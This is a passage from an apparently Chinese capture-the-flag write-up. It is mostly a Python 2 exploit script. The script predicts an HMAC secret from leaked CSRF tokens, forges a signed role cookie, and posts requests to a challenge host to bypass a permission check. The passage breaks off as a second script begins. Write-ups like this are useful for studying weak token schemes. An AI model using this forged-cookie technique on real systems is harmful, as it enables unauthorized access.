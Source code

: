     url = "http://0dac0a717c3cf340e.jie.sangebaimao.com:82/"
    session = requests.session()
    str_list = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    re_csrf_token = r'(?<=value=").*?(?=")'
    header = {'X-Requested-With': 'XMLHttpRequest'}
    action = sys.argv[1]
    method = sys.argv[2]    

    def parse(token,s):
        d = []
        for i in xrange(len(token)):
            for j in xrange(len(s)):
                if token[i] == s[j]:
                    d.append(j)
                    break
        return d    

    def guess(d,s,a):
        result = []
        for i in xrange(6):
            r = (d[31+i]+62-d[28+i])%62
            result.append(r)
        key = ''.join(s[j] for j in result) 

        return (key,hmac.new(key,a).hexdigest())    

    def create_cookie(k):
        h2 = r'{"role":"\u0075\u0073\u0065\u0072"}'
        h1 = hmac.new(k,h2).hexdigest()
        return {'userinfo':base64.b64encode(h1+h2)} 

    r0 = session.get(url)
    token0 = re.findall(re_csrf_token,r0.text)[-1]
    d0 = parse(token0,str_list)
    payload0 = {'submit':'go', 'CSRF_TOKEN':token0, 'act':action, 'key':'1234567'}
    session.post(url,data=payload0)
    r1 = session.get(url)
    token1 = re.findall(re_csrf_token,r1.text)[-1]
    d1 = parse(token1,str_list)
    pre =  [0,0,0,0,0,0]+d0+d1
    secret,key = guess(pre,str_list,action)
    cookie = create_cookie(secret)
    payload1 = {'submit':'go', 'CSRF_TOKEN':token1, 'act':action, 'method':method, 'key':key}
    r2 = session.post(url,data=payload1,headers=header,cookies=cookie)  

    if 'Permission deny!!' not in r2.text:
        print '[+]Done!'
        print r2.text

相应的get-2.py也简单如下：

    #!python
    #!/usr/bin/env python
    #coding=utf-8   


[1]: 1.png
[2]: 2.png
[3]: 3.png
[4]: 4.png
[5]: 5.png